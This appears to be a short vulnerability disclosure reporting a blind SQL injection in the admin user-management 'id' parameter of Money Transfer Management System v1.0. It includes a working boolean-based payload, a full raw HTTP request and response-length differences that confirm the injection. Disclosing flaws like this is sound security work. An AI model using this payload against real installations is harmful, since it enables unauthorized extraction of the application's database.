 # Money Transfer Management System v1.0 by oretnom23 has SQL injection

**Author：** k0xx

vendors: https://www.sourcecodester.com/php/15015/money-transfer-management-system-send-money-businesses-php-free-source-code.html

Vulnerability File: /mtms/admin/?page=user/manage_user&id=

Vulnerability location: /mtms/admin/?page=user/manage_user&id=,id

[+] Payload: /mtms/admin/?page=user/manage_user&id=1%27%20and%20length(database())%20=%207--+ // Leak place ---> id

Current database name: mtms_db,length is 7

```sql
GET /mtms/admin/?page=user/manage_user&id=1%27%20and%20length(database())%20=%207--+ HTTP/1.1
Host: 192.168.1.19
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bnvs2lhahed1884v0nf12nt52s
Connection: close
// Leak place ---> id
```

When length (database ()) = 7, Content-Length: 27338
![image](https://user-images.githubusercontent.com/54017627/164715853-a368a3bb-d941-42f6-b826-cbc91246622b.png)


When length (database ()) = 8, Content-Length: 27482
![image](https://user-images.githubusercontent.com/54017627/164715990-4a4b6be2-0709-4038-b333-1e3164e2a543.png)
